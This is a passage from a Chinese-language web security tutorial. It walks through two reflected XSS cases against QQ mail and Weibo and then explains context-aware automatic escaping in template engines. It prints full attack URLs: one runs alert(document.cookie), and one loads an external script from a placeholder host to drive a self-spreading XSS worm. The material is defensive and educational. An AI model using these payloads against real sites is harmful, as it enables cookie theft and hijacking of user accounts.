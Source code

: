 XSS 攻击案例
--------

#### QQ 邮箱 m.exmail.qq.com 域名反射型 XSS 漏洞

攻击者发现 `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb` 这个 URL 的参数 `uin`、`domain` 未经转义直接输出到 HTML 中。

于是攻击者构建出一个 URL，并引导用户去点击： `http://m.exmail.qq.com/cgi-bin/login?uin=aaaa&domain=bbbb%26quot%3B%3Breturn+false%3B%26quot%3B%26lt%3B%2Fscript%26gt%3B%26lt%3Bscript%26gt%3Balert(document.cookie)%26lt%3B%2Fscript%26gt%3B`

用户点击这个 URL 时，服务端取出 URL 参数，拼接到 HTML 响应中：

    <script>
    getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin=aaa"+"&t="+"&d=bbbb";return false;</script><script>alert(document.cookie)</script>"+"...
    

浏览器接收到响应后就会执行 `alert(document.cookie)`，攻击者通过 JavaScript 即可窃取当前用户在 QQ 邮箱域名下的 Cookie ，进而危害数据安全。

#### 新浪微博名人堂反射型 XSS 漏洞

攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

于是攻击者构建出一个 URL，然后诱导用户去点击：

`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

    <li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
    

浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为“XSS 蠕虫”。

扩展阅读：Automatic Context-Aware Escaping
-------------------------------------

上文我们说到：

1.  合适的 HTML 转义可以有效避免 XSS 漏洞。
2.  完善的转义库需要针对上下文制定多种规则，例如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等等。
3.  业务 RD 需要根据每个插入点所处的上下文，选取不同的转义规则。

通常，转义库是不能判断插入点上下文的（Not Context-Aware），实施转义规则的责任就落到了业务 RD 身上，需要每个业务 RD 都充分理解 XSS 的各种情况，并且需要保证每一个插入点使用了正确的转义规则。

这种机制工作量大，全靠人工保证，很容易造成 XSS 漏洞，安全人员也很难发现隐患。

2009年，Google 提出了一个概念叫做：[Automatic Context-Aware Escaping](https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html)。

所谓 Context-Aware，就是说模板引擎在解析模板字符串的时候，就解析模板语法，分析出每个插入点所处的上下文，据此自动选用不同的转义规则。这样就减轻了业务 RD 的工作负担，也减少了人为带来的疏漏。

在一个支持 Automatic Context-Aware Escaping 的模板引擎里，业务 RD 可以这样定义模板，而无需手动实施转义规则：

    <html>
      <head>
        <meta charset="UTF-8">
        <title>{{.title}}</title>
      </head>
      <body>
        <a href="{{.url}}">{{.content}}</a>
      </body>
    </html>
    